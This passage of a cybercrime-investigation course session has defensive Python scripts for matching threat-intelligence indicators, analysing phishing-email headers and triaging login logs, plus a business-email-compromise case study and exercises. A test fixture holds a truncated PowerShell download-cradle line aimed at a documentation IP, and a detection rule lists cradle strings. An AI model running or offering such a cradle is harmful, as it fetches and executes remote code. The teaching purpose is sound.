  09:01:20  FAIL     203.0.113.66    Unknown,XX
  09:01:41  FAIL     203.0.113.66    Unknown,XX
  09:02:05  FAIL     203.0.113.66    Unknown,XX
  09:02:30  FAIL     203.0.113.66    Unknown,XX
  09:02:58  SUCCESS  203.0.113.66    Unknown,XX

Next steps for the responder: disable 'finance', reset password, enforce MFA,
block 203.0.113.66 and 198.51.100.23, check what 'finance' accessed after 09:02:58,
and confirm with Asad whether the London login was really him (VPN? travel?).
```
**Observe:**
- **R1** found five failures followed by a **success** for `finance`, which turns a nuisance into a likely compromise: severity CRITICAL.
- **R2** spotted one IP trying five different accounts: **password spraying**, which avoids account lockouts by trying one common password against many users.
- **R3** calculated that Asad would have had to fly at about 9,000 km/h. It may still be innocent (a VPN exit in London), which is why the next step is to **ask**, not to accuse.

### Example 4 – Sweeping threat-intelligence indicators

📄 **`code/session-02_ioc_matcher.py`**

```python
"""Session 2 - Match threat-intelligence indicators (IOCs) against your own logs.

Threat-intelligence feeds share Indicators of Compromise: bad IPs, domains, URLs and
file hashes seen in real attacks. Incident responders sweep their logs for them.
This script loads a small fictional feed (JSON, similar in spirit to STIX/MISP exports),
then sweeps a proxy log and an endpoint file inventory, including a simple
"YARA-style" rule that flags files containing suspicious strings.
All indicators are fictional and use documentation/test ranges.
Run:  python session-02_ioc_matcher.py
"""
import hashlib
import ipaddress
import json

FEED = json.loads("""{
  "source": "Fictional regional CERT feed", "generated": "2026-10-19",
  "indicators": [
    {"type": "ipv4", "value": "203.0.113.45", "threat": "phishing kit host", "confidence": 90},
    {"type": "cidr", "value": "198.51.100.0/28", "threat": "password-spraying botnet", "confidence": 70},
    {"type": "domain", "value": "metr0bank-secure.example", "threat": "bank look-alike", "confidence": 95},
    {"type": "sha256", "value": "%s", "threat": "info-stealer dropper (training sample)", "confidence": 85}
  ]}""" % hashlib.sha256(b"TRAINING-SAMPLE-not-real-malware").hexdigest())

PROXY_LOG = [
    ("10:01:12", "pc-lab-07", "203.0.113.45", "GET /forms/verify.zip"),
    ("10:03:40", "pc-acc-02", "192.0.2.80", "GET /news"),
    ("10:05:02", "pc-hr-01", "198.51.100.9", "POST /login"),
    ("10:06:33", "pc-acc-02", "metr0bank-secure.example", "GET /login?id=88231"),
    ("10:07:10", "pc-lab-03", "198.51.100.200", "GET /"),
]
ENDPOINT_FILES = {  # host -> {path: file content}
    "pc-lab-07": {"C:/Users/s1/Downloads/verify.exe": b"TRAINING-SAMPLE-not-real-malware",
                  "C:/Users/s1/notes.txt": b"lecture notes week 3"},
    "pc-acc-02": {"C:/Temp/run.ps1": b"powershell -enc SQBFAFgA... DownloadString(http://203.0.113.45/a)"},
}
# A YARA-style rule written as data: match if ANY of the strings appears
RULE = {"name": "Suspicious_Download_Cradle",
        "strings": [b"DownloadString(", b"-enc ", b"Invoke-Expression"], "condition": "any"}


def match_net(value, ind):
    if ind["type"] == "ipv4":
        return value == ind["value"]
    if ind["type"] == "cidr":
        try:
            return ipaddress.ip_address(value) in ipaddress.ip_network(ind["value"])
        except ValueError:
            return False
    if ind["type"] == "domain":
        return value == ind["value"] or value.endswith("." + ind["value"])
    return False


def main():
    print(f"Feed: {FEED['source']} ({len(FEED['indicators'])} indicators, {FEED['generated']})\n")
    hits = []
    print("Proxy log sweep:")
    for t, host, dest, req in PROXY_LOG:
        found = [i for i in FEED["indicators"] if match_net(dest, i)]
        mark = f"HIT {found[0]['threat']} ({found[0]['confidence']}%)" if found else "clean"
        print(f"  {t} {host:<10} -> {dest:<26} {mark}")
        if found:
            hits.append(host)
    print("\nEndpoint file sweep (hash IOCs + YARA-style rule):")
    hashes = {i["value"]: i for i in FEED["indicators"] if i["type"] == "sha256"}
    for host, files in ENDPOINT_FILES.items():
        for path, data in files.items():
            h = hashlib.sha256(data).hexdigest()
            notes = []
            if h in hashes:
                notes.append("hash IOC: " + hashes[h]["threat"])
            if any(s in data for s in RULE["strings"]):
                notes.append("rule " + RULE["name"])
            print(f"  {host:<10} {path:<36} {'; '.join(notes) or 'clean'}")
            if notes:
                hits.append(host)
    print("\nHosts to isolate and investigate:", ", ".join(sorted(set(hits))))


if __name__ == "__main__":
    main()
```

**Output**

```text
Feed: Fictional regional CERT feed (4 indicators, 2026-10-19)

Proxy log sweep:
  10:01:12 pc-lab-07  -> 203.0.113.45               HIT phishing kit host (90%)
  10:03:40 pc-acc-02  -> 192.0.2.80                 clean
  10:05:02 pc-hr-01   -> 198.51.100.9               HIT password-spraying botnet (70%)
  10:06:33 pc-acc-02  -> metr0bank-secure.example   HIT bank look-alike (95%)
  10:07:10 pc-lab-03  -> 198.51.100.200             clean

Endpoint file sweep (hash IOCs + YARA-style rule):
  pc-lab-07  C:/Users/s1/Downloads/verify.exe     hash IOC: info-stealer dropper (training sample)
  pc-lab-07  C:/Users/s1/notes.txt                clean
  pc-acc-02  C:/Temp/run.ps1                      rule Suspicious_Download_Cradle

Hosts to isolate and investigate: pc-acc-02, pc-hr-01, pc-lab-07
```
**Observe:** a CIDR indicator matched `198.51.100.9` but not `198.51.100.200` (outside the /28). The PowerShell script was caught by the **behaviour rule** even though its hash is not in any feed, which is the Pyramid of Pain in action.

### Example 5 – Investigating a phishing email (headers and OSINT)

📄 **`code/session-02_email_header_analyzer.py`**

```python
"""Session 2 - Analyse a suspicious email's headers (phishing investigation and OSINT).

Email headers are a goldmine for investigators. This script parses a fictional
phishing email with Python's standard email library and checks:
  * the path the message took (Received headers, read bottom-up),
  * authentication results (SPF, DKIM, DMARC),
  * mismatches between From, Reply-To and Return-Path,
  * look-alike domains (typosquatting) compared with the real brand domain,
  * URLs in the body, printed in DEFANGED form (hxxps, [.]) so nobody clicks them.
Domains use the reserved example/test names; IPs are documentation ranges.
Run:  python session-02_email_header_analyzer.py
"""
import re
from email import message_from_string
from email.utils import parseaddr

RAW = """\
Received: from mail.corp-mailhost.example (mail.corp-mailhost.example [192.0.2.25])
\tby mx.university.example; Tue, 20 Oct 2026 10:02:11 +0500
Received: from unknown-host (unknown [203.0.113.45])
\tby mail.corp-mailhost.example; Tue, 20 Oct 2026 05:02:07 +0000
Authentication-Results: mx.university.example;
\tspf=fail smtp.mailfrom=bulk-sender.test;
\tdkim=none;
\tdmarc=fail header.from=metr0bank-secure.example
Return-Path: <bounce@bulk-sender.test>
From: "MetroBank Security" <security@metr0bank-secure.example>
Reply-To: helpdesk.verify@freemail.test
To: student@university.example
Subject: URGENT: Your account will be suspended in 24 hours
Date: Tue, 20 Oct 2026 05:02:05 +0000
Message-ID: <x81@unknown-host>
Content-Type: text/plain

Dear customer, we detected unusual activity. Verify now at
https://metr0bank-secure.example/login?id=88231 or your account will be closed.
Download the form: http://203.0.113.45/forms/verify.zip
"""
REAL_BRAND = "metrobank.example"
HOMOGLYPHS = str.maketrans({"1": "l", "0": "o", "3": "e", "5": "s"})  # digit -> letter it imitates


def defang(url):
    return url.replace("http", "hxxp").replace(".", "[.]")


def lookalike(domain, real):
    base = domain.split(".")[0].split("-")[0]
    return base.translate(HOMOGLYPHS) == real.split(".")[0] and domain != real


def main():
    msg = message_from_string(RAW)
    score, reasons = 0, []
    print("1) Delivery path (oldest hop at the bottom):")
    for i, hop in enumerate(reversed(msg.get_all("Received")), 1):
        hop = " ".join(hop.split())
        ip = re.search(r"\[([\d.]+)\]", hop)
        print(f"   hop {i}: {hop.split(';')[0][:70]}  ip={ip.group(1) if ip else '?'}")
    auth = " ".join(msg["Authentication-Results"].split())
    print("\n2) Authentication:")
    for mech in ("spf", "dkim", "dmarc"):
        res = re.search(mech + r"=(\w+)", auth).group(1)
        print(f"   {mech.upper():<6} {res}")
        if res != "pass":
            score += 2
            reasons.append(f"{mech.upper()} {res}")
    frm = parseaddr(msg["From"])[1].split("@")[1]
    rto = parseaddr(msg["Reply-To"])[1].split("@")[1]
    rpath = parseaddr(msg["Return-Path"])[1].split("@")[1]
    print(f"\n3) Domains: From={frm}  Reply-To={rto}  Return-Path={rpath}")
    if len({frm, rto, rpath}) > 1:
        score += 2
        reasons.append("From / Reply-To / Return-Path domains differ")
    if lookalike(frm, REAL_BRAND):
        score += 3
        reasons.append(f"look-alike of {REAL_BRAND} ('0' used instead of 'o')")
    body = msg.get_payload()
    urls = re.findall(r"https?://\S+", body)
    print("\n4) URLs in body (defanged):")
    for u in urls:
        print("   ", defang(u))
        if re.match(r"https?://\d+\.\d+\.\d+\.\d+", u):
            score += 2
            reasons.append("link to a raw IP address")
        if u.endswith((".zip", ".exe", ".js", ".iso")):
            score += 2
            reasons.append("link downloads an archive/executable")
    if re.search(r"urgent|suspend|24 hours|closed", (msg["Subject"] + body).lower()):
        score += 1
        reasons.append("pressure / urgency language")
    verdict = "PHISHING - block and report" if score >= 8 else "SUSPICIOUS" if score >= 4 else "Probably fine"
    print(f"\n5) Risk score {score}: {verdict}")
    for r in reasons:
        print("   -", r)
    print("\nIOCs to share with the SOC: 203.0.113.45, metr0bank-secure.example, bulk-sender.test,"
          " freemail.test reply address")


if __name__ == "__main__":
    main()
```

**Output**

```text
1) Delivery path (oldest hop at the bottom):
   hop 1: from unknown-host (unknown [203.0.113.45]) by mail.corp-mailhost.examp  ip=203.0.113.45
   hop 2: from mail.corp-mailhost.example (mail.corp-mailhost.example [192.0.2.2  ip=192.0.2.25

2) Authentication:
   SPF    fail
   DKIM   none
   DMARC  fail

3) Domains: From=metr0bank-secure.example  Reply-To=freemail.test  Return-Path=bulk-sender.test

4) URLs in body (defanged):
    hxxps://metr0bank-secure[.]example/login?id=88231
    hxxp://203[.]0[.]113[.]45/forms/verify[.]zip

5) Risk score 16: PHISHING - block and report
   - SPF fail
   - DKIM none
   - DMARC fail
   - From / Reply-To / Return-Path domains differ
   - look-alike of metrobank.example ('0' used instead of 'o')
   - link to a raw IP address
   - link downloads an archive/executable
   - pressure / urgency language

IOCs to share with the SOC: 203.0.113.45, metr0bank-secure.example, bulk-sender.test, freemail.test reply address
```
**Observe:**
- Read `Received` headers **from the bottom up**: the oldest hop shows the real origin, `203.0.113.45`.
- SPF, DKIM and DMARC all failed, and three different domains appear in From, Reply-To and Return-Path.
- `metr0bank` uses a zero in place of the letter o: a **typosquatted** look-alike domain.
- URLs are **defanged** (`hxxps`, `[.]`) so they can be pasted into reports and chats without anyone clicking them.

## 📊 Chart

What the classifier queue in Example 1 contained:



Choosing a tool by question:

| The investigator asks… | Reach for |
|---|---|
| "What was on the disk, including deleted files?" | Imager + Autopsy/FTK/EnCase |
| "What was running when we seized it?" | Memory capture + Volatility |
| "Which machines talked to the attacker?" | SIEM, firewall/proxy logs, Zeek, Wireshark |
| "Is this file malicious?" | Hash lookup, sandbox, YARA |
| "Who registered this domain and what else do they own?" | WHOIS/RDAP, certificate logs, Maltego |
| "What happened, in order?" | Plaso/Timesketch timeline |
| "Is the attacker still in the network?" | EDR hunting, Velociraptor, threat hunting |

## 🏢 Real-life problem with full solution

**Scenario.** *Indus Weaves*, a textile exporter in Karachi, pays a regular European supplier about EUR 40,000 a month. The accounts officer receives an email from the supplier's usual contact: "Our bank has changed; please use the new account for this month's invoice," with a correct-looking invoice attached. The payment is made. A week later the real supplier asks why it has not been paid.

**Solution.**

1. **Act fast on the money.** Call the bank immediately to request a recall of the transfer; banks can sometimes freeze funds if contacted within hours or days. Report to the national cybercrime agency and give the beneficiary account details.
2. **Preserve evidence.** Export the original emails **with full headers** (not screenshots), the invoice file, and mailbox audit logs; hash them; start a chain of custody.
3. **Analyse the headers** (as in Example 5). Two possibilities:
   - a **look-alike domain** (e.g. one letter changed) → the supplier was impersonated;
   - the **genuine domain** with passing SPF/DKIM → the supplier's (or your own) mailbox was **compromised**.
4. **Check your own mailbox** in the email platform's sign-in logs: unusual countries, impossible travel, new **inbox forwarding rules** (criminals often create rules that hide replies from the real supplier), new app consents. Apply the detection logic of Example 3.
5. **Contain:** reset passwords, revoke sessions, remove malicious rules, enable **MFA** for every mailbox, block the look-alike domain and sender IPs (Example 4).
6. **OSINT:** look up the look-alike domain's registration date (often registered days before the fraud), hosting and certificate history; add all indicators to the case and share them with the supplier and the national CERT.
7. **Prevent:** a written policy that **any change of bank details is verified by phone using a number already on file**, never one from the email; dual approval for payments above a threshold; DMARC enforcement (`p=reject`) on your own domain; awareness training with BEC examples.
8. **Lessons learned report** to management, with a timeline, losses, recovered amounts and control improvements.

## ⚠️ Common mistakes

- Switching off a compromised computer immediately, destroying memory evidence (keys, processes, connections).
- Investigating on the original disk instead of a verified copy.
- Forwarding phishing emails as screenshots (headers are lost) or clicking links "to check".
- Treating one IOC hit as proof of guilt: IPs are shared, VPNs and cloud hosts are reused.
- Using OSINT tools to snoop on people without a lawful, documented purpose.
- Skipping the lessons-learned phase, so the same attack works again.
- Not recording times with their time zones, leading to confused timelines.

## ✅ Best practices

- Prepare **before** incidents: IR plan, contact list, logging for 90+ days, tested backups, playbooks for phishing, ransomware and BEC.
- Follow the order of volatility; hash every item; keep chain-of-custody records.
- Use both signatures **and** behaviour-based detections; map detections to MITRE ATT&CK.
- Enrich alerts with threat intelligence, but confirm with your own evidence.
- Defang indicators in reports; store malware samples only in password-protected archives in an isolated lab.
- Keep investigations proportionate, documented and lawful.
- Practise with tabletop exercises and capture-the-flag labs.

## 🧪 Lab / practice tasks (Try It Yourself)

1. **Easy –** For each crime say whether the computer is the **target**, the **tool** or an **evidence store**: (a) DDoS on a bank website, (b) blackmail via a messaging app, (c) a fraudster's laptop holding a spreadsheet of victims, (d) ransomware on a hospital server.
2. **Easy –** Match each need to a tool category: memory analysis, packet analysis, disk imaging, log correlation, link analysis of domains.
3. **Medium –** Add a new category **"Cryptojacking"** to `session-02_crime_classifier.py` (keywords such as `cpu`, `mining`, `slow`, `fan`) and a report: *"All lab PCs are slow, fans at full speed, CPU 100% from an unknown mining process."* Run it and check the result.
4. **Medium –** In `session-02_log_triage.py`, add rule **R4: login outside working hours** (before 07:00 or after 20:00 Karachi time) for accounts in a `STAFF` set. Add one event to test it.
5. **Medium –** Do a **safe OSINT exercise on your own footprint**: search your name and usernames, list what is public (photos, school, phone, location tags) and write three privacy improvements. Do not research anyone else.
6. **Challenge –** Extend `session-02_email_header_analyzer.py` to calculate the **delay between hops** from the timestamps in the `Received` headers, and flag any hop whose clock is in the future compared with the next hop.

<details>
<summary>💡 Hints</summary>

- Task 1: ask "was the computer attacked, used, or just a container?"
- Task 3: add an entry to `CATEGORIES` with role `"target"` (the victim machines are abused) and a priority.
- Task 4: `e["time"].hour` gives the hour; check only `SUCCESS` events.
- Task 6: the part after `;` in each `Received` header is a date; parse it with `email.utils.parsedate_to_datetime`.
</details>

<details>
<summary>✅ Solutions</summary>

**Task 1:** (a) target, (b) tool, (c) evidence store, (d) target.

**Task 2:** memory → Volatility; packets → Wireshark/Zeek; imaging → FTK Imager/dd; logs → SIEM (Splunk, Elastic, Sentinel, Wazuh); domain links → Maltego/SpiderFoot.

**Task 3:**

```python
CATEGORIES["Cryptojacking"] = (["cpu", "mining", "slow", "fan"], "target", 3)
REPORTS.append("All lab PCs are slow, fans at full speed, CPU 100% from an unknown mining process.")
```

It is classified as Cryptojacking with evidence words `cpu, mining, slow, fan`.

**Task 4:**

```python
STAFF = {"asad", "sana", "finance"}
for e in events:
    if e["result"] == "SUCCESS" and e["user"] in STAFF and not 7 <= e["time"].hour < 20:
        alerts.append((e["time"], "R4 out of hours", e["user"], "MEDIUM"))
# test event:  2026-10-20T23:15:00 SUCCESS user=sana ip=192.0.2.11 geo=Karachi,PK
```

**Task 5:** answers will vary; good improvements include making profiles private, removing phone numbers and home location tags, using different usernames for personal and professional accounts, and turning on login alerts.

**Task 6:**

```python
from email.utils import parsedate_to_datetime
hops = [parsedate_to_datetime(h.split(";")[-1].strip()) for h in reversed(msg.get_all("Received"))]
for a, b in zip(hops, hops[1:]):
    d = (b - a).total_seconds()
    print(f"   delay {d:.0f} s" + ("  <- clock skew or forged header" if d < 0 else ""))
```

For the sample email the delay is 4 seconds (05:02:07 UTC → 10:02:11 +05:00 = 05:02:11 UTC).
</details>

## ✅ Quick quiz

1. Ransomware encrypting a hospital's server is an example of the computer as: a) tool b) target c) evidence store d) witness
2. Which tool is mainly used for memory forensics? a) Wireshark b) Volatility c) Maltego d) Snort
3. The correct NIST incident-response order is: a) Detection → Preparation → Recovery → Lessons b) Preparation → Detection and analysis → Containment, eradication and recovery → Post-incident activity c) Containment → Detection → Preparation → Reporting d) Recovery → Containment → Detection → Preparation
4. Which indicator is the **hardest** for an attacker to change, according to the Pyramid of Pain? a) hash b) IP address c) domain d) TTPs
5. OSINT is intelligence gathered from: a) hacked databases b) publicly available sources c) private messages d) stolen credentials

<details>
<summary>Show answers</summary>

1 – b · 2 – b · 3 – b · 4 – d · 5 – b
</details>

## 📝 Summary / cheat-sheet

- Computer roles: **target** (ransomware, DDoS), **tool** (fraud, harassment), **evidence store**.
- Main categories: phishing, fraud, BEC, ransomware, hacking, identity theft, cyberstalking, DDoS, insider, IP theft, supply chain, espionage/critical infrastructure.
- Investigation phases: identification → preservation → collection → examination → analysis → presentation.
- Tools: write blockers, FTK Imager/dd, Autopsy/EnCase/FTK/AXIOM, Volatility, Wireshark/Zeek, Cellebrite/ALEAPP, Plaso, SIEM, EDR, Snort/Suricata, YARA, TheHive/MISP.
- IR (NIST SP 800-61): preparation → detection and analysis → containment, eradication, recovery → post-incident activity.
- Detection: signature, anomaly, behaviour/TTP, threat intel, hunting; Pyramid of Pain favours TTP detection.
- OSINT: public sources only, lawful purpose, document URL + time + hash, corroborate.

**Interview / viva questions**

1. Give one example each of a computer as target, tool and evidence store.
2. Why must memory be captured before the disk in many investigations?
3. Explain how a hash proves evidence integrity.
4. What is the difference between brute force and password spraying, and how would you detect each?
5. Walk through the four phases of the NIST incident-response lifecycle for a ransomware attack.
6. What makes OSINT lawful and ethical, and how do you make OSINT findings repeatable?

---

| ⬅ [Previous: Session 1](session-01-gdpr.md) | [Next: Session 3](session-03-cyber-laws-and-digital-evidence.md) ➡ |
|:---|---:|

<sub>Prepared by **Hamna Zahid Khan**, Junior Lecturer · Cybersecurity and Digital Forensics</sub>
